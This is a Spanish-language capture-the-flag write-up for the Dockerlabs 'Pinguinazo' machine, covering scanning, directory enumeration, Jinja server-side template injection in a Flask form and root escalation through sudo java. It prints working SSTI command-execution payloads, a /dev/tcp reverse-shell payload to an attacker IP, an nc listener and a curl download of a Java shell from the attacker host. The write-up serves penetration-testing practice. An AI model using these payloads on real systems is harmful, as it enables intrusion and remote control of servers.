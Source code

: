 # Pinguinazo

Pequeño CTF en modo **easy** de Dockerlabs.

---

## 🔎 Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Dado que la dirección IP es conocida o fácilmente identificable dentro de este entorno controlado, esta fase se clasifica como **reconocimiento pasivo**.

![Reconocimiento](https://i.imgur.com/rs4PSAQ.png)

---

## 📡 Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **5000** abierto.
- Servicio en ejecución: aplicación Python con **Flask** y referencias a **Werkzeug**.

![Scan1](https://i.imgur.com/6UnWPSU.png)  
![Scan2](https://i.imgur.com/fZBZZWQ.png)

Incluso se observó la dirección MAC del objetivo.

---

## 📂 Enumeración

El siguiente paso fue buscar directorios y recursos ocultos.

Con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado fue limitado, por lo que se usó **dirb**, que reveló un recurso interesante:

![Dirb](https://i.imgur.com/FrTLh5h.png)

Se identificó `/console`, correspondiente a la **consola interactiva de Werkzeug**.  
En el código fuente de la web se encontraron datos sensibles como la **SECRET**, probablemente utilizada en la generación del PIN de acceso.

![Werkzeug1](https://i.imgur.com/qZt5KIJ.png)  
![Werkzeug2](https://i.imgur.com/C0b9r7G.png)

Además, la página principal contenía un formulario muy básico, con los siguientes puntos débiles:

- Input de correo en modo _readOnly_ (correo de administrador expuesto).
- Inputs sin validaciones (no requeridos).
- El campo _nombre_ parece usarse directamente como parámetro en el renderizado.

![Form1](https://i.imgur.com/KI8LbEo.png)  
![Form2](https://i.imgur.com/hekE1S3.png)

---

## 💥 Explotación

Se consideraron dos caminos:

1. **Bypass del PIN de Werkzeug**

   - Basado en parámetros como:
     - Usuario que ejecuta la app.
     - SECRET de la aplicación.
     - Dirección MAC de la máquina.
   - Existen scripts para generar posibles PINs, pero requieren tiempo y múltiples intentos válidos.

   ![Werkzeug Bypass](https://i.imgur.com/igjHHlp.png)

2. **Explotación del formulario principal**  
   Se probaron inyecciones:

   - **XSS**: `<script>alert('pwned');</script>`
   - **SSTI**: `{{ 2 * 8 }}`

   La inyección SSTI funcionó, confirmando vulnerabilidad en el render de templates.

![SSTI1](https://i.imgur.com/naclOMB.png)  
![SSTI2](https://i.imgur.com/0B2VOOy.png)

Ejemplo de payload ejecutando comandos del sistema:

```jinja
{{ config.__init__.__globals__['os'].popen('whoami').read() }}
```

Con Burp Suite (Repeater) se probó leer `/etc/passwd`:

![passwd1](https://i.imgur.com/rEyQTRG.png)  
![passwd2](https://i.imgur.com/aTAu5Gd.png)

✅ Quedó claro que la explotación vía SSTI era más directa y efectiva.

---

### 🌀 Reverse Shell

Se intentó una reverse shell usando la inyección SSTI. El payload exitoso fue:

```jinja
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen(
  'bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"').read() }}
```

**Consideraciones previas**:

- Definir la IP de escucha y puerto.
- Levantar el listener con:
  ```bash
  nc -lvnp 8080
  ```

![ReverseShell1](https://i.imgur.com/UZWpEfu.png)  
![ReverseShell2](https://i.imgur.com/QNAHOy2.png)

Con esto se obtuvo acceso inicial a la terminal.

---

## 🔝 Escalación de privilegios

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/3B74T7F.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/sudo` en la lista.  
Al ejecutar:

```bash
sudo -l
```

Se descubrió que la shell permitía ejecutar **Java** como root.

![SudoJava](https://i.imgur.com/nnztH1C.png)

Lo ideal sería aplicar una reverse shell ejecutada con sudo para optener los permisos de root, se consultó [reveshells]() para generar una donde se pueda acceder mediante sudo.

![SudoJava](https://i.imgur.com/3RroNqA.png)

**Nota**: Se tuvo en cuenta que no había una terminal interactiva en la máquina victima por lo que exportar TERM sería una opción sin embargo, en este caso se creó la shell desde máquina atacante y en la raiz del proyecto se ejecutó un `python3 -m http.server PORT` para servir el archivo.

Luego se obtuvo desde la máquina victima con `curl -O http://10.0.0.1:PORT/magic_shell.java`

Con la shell en la máquina victima se ejecutó con `sudo java magic_shell.java` y a pesar de generar warnings, se obtuvo la shell con el mítico _root_

![SudoJava](https://i.imgur.com/lgH3sZ1.png)

## ![SudoJava](https://i.imgur.com/wVFMqtT.png)
